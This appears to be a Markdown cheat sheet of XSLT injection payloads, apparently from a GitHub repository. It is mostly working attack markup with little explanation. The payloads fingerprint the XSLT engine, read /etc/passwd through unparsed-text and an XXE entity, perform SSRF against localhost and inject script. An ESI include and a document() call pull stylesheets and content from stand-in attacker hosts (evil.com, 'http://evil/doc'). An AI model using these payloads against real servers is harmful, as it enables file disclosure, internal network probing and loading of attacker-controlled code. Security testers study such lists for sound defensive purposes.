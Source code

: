 
## where to find 
In order to exploit this kind of vulnerability you need to be able to store xsl tags in the server side and then access that content

### chain with `est injection` attack 
```
<esi:include src="http://website.com/" stylesheet="http://evil.com/esi.xsl">
</esi:include>
```


## detection


```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="html"/>
<xsl:template match="/">
    <h2>XSLT identification</h2>
    <b>Version:</b> <xsl:value-of select="system-property('xsl:version')"/><br/>
    <b>Vendor:</b> <xsl:value-of select="system-property('xsl:vendor')" /><br/>
    <b>Vendor URL:</b><xsl:value-of select="system-property('xsl:vendor-url')" /><br/>
</xsl:template>
</xsl:stylesheet>
```


## read file


```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')"/>
</xsl:template>
</xsl:stylesheet>
```


## SSRF

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:include href="http://127.0.0.1:5000/xslt"/>
<xsl:template match="/">
</xsl:template>
</xsl:stylesheet>
```

## js injection
```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<script>confirm("We're good");</script>
</xsl:template>
</xsl:stylesheet>
```

## xxe
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE dtd_sample[<!ENTITY ext_file SYSTEM "/etc/passwd">]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
&ext_file;
</xsl:template>
</xsl:stylesheet>
```

## inclusion using http 
```
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<xsl:value-of select="document('http://evil/doc')"/>
</xsl:template>
</xsl:stylesheet>
```

## RCE 
-some times xslt can lead to RCE in certain condtions

check this [documentation](https://vulncat.fortify.com/en/detail?id=desc.dataflow.java.xslt_injection#C%23%2FVB.NET%2FASP.NET)

## tools 

-use tool saxonb-xslt to parse xml
-ex: saxonb-xslt -xsl:transformation.xsl catalogue.xml

